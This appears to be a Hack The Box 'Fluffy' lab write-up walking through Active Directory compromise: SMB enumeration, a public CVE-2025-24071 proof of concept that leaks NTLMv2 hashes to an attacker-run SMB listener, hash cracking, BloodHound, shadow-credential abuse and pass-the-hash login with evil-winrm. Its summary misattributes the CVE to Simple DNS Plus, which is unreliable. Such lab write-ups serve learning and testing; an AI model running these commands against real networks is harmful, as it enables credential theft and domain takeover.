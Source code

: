 
# Executive Summary – HTB Fluffy

The HTB Fluffy machine is an "Easy" rated Windows Active Directory environment designed to simulate a real-world enterprise network. 

This engagement commenced with initial access via valid credentials for the user `j.fleischman`, provided in a compromised state. Subsequent enumeration and exploitation revealed several critical vulnerabilities:

## Successful Attacks / Compromise
- **CVE-2025-24071**: Vulnerability in Simple DNS Plus allowing NTLMv2 hash extraction.
- **Shadow Credentials Misuse**: Exploitation of GenericWrite permissions to escalate privileges.
- **ESC16 (UPN Spoofing)**: Abuse of Active Directory Certificate Services to forge certificates for administrative access.

> By chaining these vulnerabilities, full domain compromise was achieved, demonstrating the importance of robust credential management and configuration in Active Directory environments.

## Other Findings / Unsuccessful Attacks
- Listing domain users via `rpcclient enumdomusers`, revealing accounts like `Administrator`, `Guest`, `krbtgt`, service accounts (`ca_svc`, `ldap_svc`, `winrm_svc`), and user accounts (`j.coffey`, `p.agila`).  
- Gathering user information via `rpcclient queryuser j.fleischman` (password last set time, logon details, account privileges).  
- Collecting server information via `rpcclient srvinfo` (platform, OS version).  
- Kerberoasting attempted using `GetUserSPNs.py` with valid credentials. Extracted TGS hashes were tested with `Hashcat -m 13100` using wordlists (`rockyou.txt`, `johnlist`, `10k-most-common.txt`) without success.

## Key Takeaways
- Full domain compromise is possible via chained AD vulnerabilities.  
- Valid user credentials provide substantial access for enumeration.  
- Kerberoasting is a high-value attack vector, but strong service account passwords mitigate risk.  
- Detailed AD enumeration (users, groups, privileges) is critical before attempting privilege escalation.


# Detailed reproduction steps for this CVE-2025-24071 & Shadow Credentials Misuse

`sudo nmap -sC -sV 10.129.165.40`
NMAP is tool ised for port scanning, service dction and network disocver. 
- `-sC` runs nmap default scripts
- `sV` tries to identify the exact software running. 


<img src="images/nmap_scan.png" alt="nmap scan">


Next enumrate SMB share
`smbmap -H 10.129.165.40 -u "j.fleischman -p J0elTHEM4n1990!"`
 <img src="images/smbmap.png" class="report-images" alt="SMBMAP">

Form this we wee have read and write to IT share so lets see connect to that share and see if there is anything in it.

`smbclient //10.129.165.40/IT -U "j.fleischman"`


smb: \> ls
  .                                   D        0  Fri Sep  5 20:08:31 2025
  ..                                  D        0  Fri Sep  5 20:08:31 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 16:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 16:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 16:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 16:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 15:31:07 2025

Download UPgrade_Notice.pdf and you will see a list of vulnerbites that need patching. 
![!PDF on the SMB](images/notice.png)

To find a good example of how to run a exploit CVE- Title -github poc in google. 
You should find https://github.com/LOOKY243/CVE-2025-24071-PoC


### Steps
1. Copy the exploit.py file to your machine 
2. python3 `exploit.py -i 10.10.16.40 -s shared -f evil`
 3. Start listener for hash capture:
   `sudo impacket-smbserver shared /home/franky/Documents/FLUFFY -smb2support`
   3. Upload payload to target IT share.
      `put evil.zip`

4. You should see username + hash on listner.

5. Crack the with rockyou.txt: 
  `hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt`

6. Create a BloodHound file and upload to bloodhound review.
      `sudo nxc ldap dc01.fluffy.htb -u '<USERNAME>' -p '<PASSWORD>' \
      --bloodhound --collection All --dns-tcp --dns-server <TARGET_IP>`
7. `BloodHound`
8. Should see BloodHound open in new tab in firefox
9. Upload the ladp file we created to upload 
10. Search for User we enumerated
11. Examine relationships and you will see this 


![BloodHound Scan](images/Bloodhound.png)


12. If examine WINRM_SVC in BloddHound, it is member of remote services add can remote login. If we try to use EVil-winrm for user p.agila or J.FLEISCHMAN will see users dint have permisison. 

Observations form BloodHound

The user we found is in SERVICE ACCOUNT MANAGERS, which has full control (GenericAll) over SERVICE ACCOUNTS; SERVICE ACCOUNTS can modify WINRM_SVC (GenericWrite).

Implications: User can indirectly modify service accounts. Compromising this user could allow escalation to WINRM_SVC via the permission chain. WINRM_SVC can access remote login is and likely has the flag. 

## Preparations

- Start a virtual environment in your folder and install the following tools in a virtual environment:
  - `pywhisker`
  - `PKINITtools`
  - `faketime`


---

### Add User to Service Accounts

`net rpc group addmem "Service Accounts" "<USER>" \
  -U "dc01.fluffy.htb"/"<USER>" -S "<TARGET_IP>"`


### Request Kerberos TGT for Service Account

If your local time does not match the Domain Controller (DC), you may encounter errors. Synchronize time first:

`sudo rdate -n <TARGET_IP>`



`faketime <DATE_TIME> python3 gettgtpkinit.py \ -cert-pem key_cert.pem \ -key-pem key_priv.pem \ fluffy.htb/<SERVICE_ACCOUNT> \  <SERVICE_ACCOUNT>.ccache`


### Set the Kerberos ticket environment variable:

> Why we do this: 

 > When you log in with a valid ticket, it gets stored in /tmp/krb5cc_<UID>.

> All Kerberos-enabled tools (smbclient, psexec.py, ldapsearch, etc.) will look in that default location to authenticate.

> But in a pentest, you often manually extract or forge tickets (e.g., with impacket, Mimikatz, or AD CS attacks). Those tickets don’t automatically go to /tmp/krb5cc_<UID>. They’re saved in a .ccache file.

> So, to make Kerberos-aware tools use your forged/extracted ticket, you tell them where it is:

`export KRB5CCNAME=<SERVICE_ACCOUNT>.ccache`


Tip: Ensure the KRB5CCNAME export works in your virtual environment. Use an absolute path if necessary.

### Retrieve NT Hash

`faketime <DATE_TIME> python3 getnthash.py \ -key <KEY> fluffy.htb/<SERVICE_ACCOUNT>`

### Access Service Account
`evil-winrm -i <TARGET_IP> -u <SERVICE_ACCOUNT> -H <NT_HASH>`



